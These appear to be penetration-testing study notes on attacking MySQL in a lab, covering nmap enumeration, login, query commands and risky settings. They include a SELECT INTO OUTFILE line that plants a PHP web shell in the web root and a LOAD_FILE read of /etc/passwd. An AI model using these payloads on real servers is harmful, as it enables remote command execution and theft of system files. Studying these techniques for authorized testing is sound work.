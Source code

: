 # My Structured Query Language



## Footprinting The Service

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Interaction with the MySQL Server**

{% code overflow="wrap" %}
```
mysql -u root -pP4SSw0rd -h 10.129.14.128
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Commands

| Command                                              | Description                                                                                           |
| ---------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| `mysql -u <user> -p<password> -h <IP address>`       | Connect to the MySQL server. There should **not** be a space between the '-p' flag, and the password. |
| `show databases;`                                    | Show all databases.                                                                                   |
| `use <database>;`                                    | Select one of the existing databases.                                                                 |
| `show tables;`                                       | Show all available tables in the selected database.                                                   |
| `show columns from <table>;`                         | Show all columns in the selected database.                                                            |
| `select * from <table>;`                             | Show everything in the desired table.                                                                 |
| `select * from <table> where <column> = "<string>";` | Search for needed `string` in the desired table.                                                      |

## Dangerous Settings

| `user`             | Sets which user the MySQL service will run as.                                                               |
| ------------------ | ------------------------------------------------------------------------------------------------------------ |
| `password`         | Sets the password for the MySQL user.                                                                        |
| `admin_address`    | The IP address on which to listen for TCP/IP connections on the administrative network interface.            |
| `debug`            | This variable indicates the current debugging settings                                                       |
| `sql_warnings`     | This variable controls whether single-row INSERT statements produce an information string if warnings occur. |
| `secure_file_priv` | This variable is used to limit the effect of data import and export operations.                              |

`MySQL` default system schemas/databases:

* `mysql` - is the system database that contains tables that store information required by the MySQL server
* `information_schema` - provides access to database metadata
* `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
* `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

## Write Local File

{% code overflow="wrap" %}
```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

## File Write Privileges

{% code overflow="wrap" %}
```
show variables like "secure_file_priv";
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>We can see the <code>secure_file_priv</code> variable is empty, which means we can read and write data using MySQL</p></figcaption></figure>

## Read Local File

{% code overflow="wrap" %}
```
select LOAD_FILE("/etc/passwd");
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>By default a <code>MySQL</code> installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files</p></figcaption></figure>
